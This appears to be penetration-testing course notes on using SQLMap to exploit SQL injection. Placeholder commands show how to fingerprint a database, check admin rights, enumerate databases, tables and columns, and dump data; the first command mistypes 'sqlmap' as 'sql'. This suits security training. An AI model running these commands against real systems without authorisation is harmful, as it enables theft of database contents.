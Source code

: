 If you have to exploit a POST parameter you have to use:
  ```
  $ sql -u <URL> --data=<POST string> -p parameter [options]
  ```
  You can write the POST string by yourself or copy it from a request intercepted with Burp Proxy.

Another way to use SQLMap is by saving a request intercepted with Burp Proxy to a file. (see img-196)
And then specifying it on the command line:
  ```
  $ sqlmap -r <request file> -p parameter [options]
  ```
  You can also copy the POST string from a request intercepted with Burp Proxy.

#### 4.6.2. Extracting the Database Banner
The very first step of most SQLi exploitations is grabbing the database banner. By using the `--banner` switch you can grab the database banner. This is extremely helpful both to test your injection and to have proof of the exploitability of the vulnerability to include in your report.
  ```
  $ sqlmap -u <target> --banner <other options>
  ```

#### 4.6.3. Information Gathering
Then you can move to a sort of **information gathering phase**.
  The first thing is to list the users of the database:
    ```
    $ sqlmap -u <target> --users <other options>
    ```
  Then check if the web application database user is a database administrator:
    ```
    $ sqlmap -u <target> --is-dba <other options>
    ```

#### 4.6.4. Extracting the Databases
The `--dbs` command lets you list all of the available databases:
  ```
  $ sqlmap -u <target> --dbs <other options>
  ```

#### 4.6.5. Extracting the Schema
After that you can choose a database by using the `-D` switch and lists its tables:
  ```
  $ sqlmap -u <target> -D <database> --tables <other options>
  ```

In the same manner you can choose one or more tables and list their columns:
  ```
  $ sqlmap -u <target> -D <database> -T <tables, comma separated list> --columns <other options>
  ```

Finally you can dump just the columns you need:
  ```
  $ sqlmap -u <target> -D <database> -T <tables> -C <columns list> --dump <other options>
  ```


